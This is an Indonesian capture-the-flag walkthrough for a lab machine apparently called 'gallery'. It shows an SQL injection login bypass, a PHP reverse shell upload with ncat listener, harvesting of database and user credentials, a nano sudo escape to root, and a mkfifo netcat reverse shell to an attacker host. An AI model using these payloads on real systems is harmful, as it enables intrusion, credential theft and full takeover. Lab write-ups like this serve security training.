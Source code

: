 Login dengan SQLI
    - `admin'-- -` + random passwd

Selanjutnya lakukan upload revhsell.php karena tidak ada blacklisting
setup listener `ncat -lvnp port`
stabilize shell dengan cara
```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
# CTRL+Z
stty raw -echo; fg
```

Dapat creds mysql di `initialize.php`
```
...
if(!defined('DB_USERNAME')) define('DB_USERNAME',"gallery_user");
if(!defined('DB_PASSWORD')) define('DB_PASSWORD',"passw0rd321");
if(!defined('DB_NAME')) define('DB_NAME',"gallery_db");
...
```
dan kita dapat creds dari admin dengan login mysql `mysql -u gallery_user -p gallery_db` password=`passw0rd321`. Selanjutnya kita bisa ambil creds dengan `use gallery_db` lalu `select * from users where username="admin";` 
`admin    | a228b12a08b6527e7978cbe5d914531c`

Dapat creds mike dari running linpeas
```
╔══════════╣ Searching passwords in history files                                                         
/usr/lib/ruby/vendor_ruby/rake/thread_history_display.rb:      @stats   = stats                           
/usr/lib/ruby/vendor_ruby/rake/thread_history_display.rb:      @items   = { _seq_: 1  }                   
/usr/lib/ruby/vendor_ruby/rake/thread_history_display.rb:      @threads = { _seq_: "A" }                  
/var/backups/mike_home_backup/.bash_history:sudo -lb3stpassw0rdbr0xx                                      
/var/backups/mike_home_backup/.bash_history:sudo -l
```
creds `mike:b3stpassw0rdbr0xx`

escalate menjadi user mike, dan ketika cek sudo -l hasilnya
```
...
User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
dan jika kita cek isinya, akan seperti berikut
```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
dari code diatas, kita dapat memanfaatkan nano untuk privesc ke root. pastikan TERM environment adalah xterm/linux

Selanjutnya gunakan nano untuk escape dan mendapat root shell
```bash
CTRL+R CTRL+X
reset; sh 1>&0 2>&0
```
akan sedikit membingungkan tampilannya, jadi kita bisa buat revshell lagi dengan mkfifo
setup listener
```
ncat -lvnp 2222
```
selanjunty pada target gunakan mkfifo
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc IP-local 2222 >/tmp/f
```
dan kita mendapat rootshell. bebas menggunakan untuk post exploit.


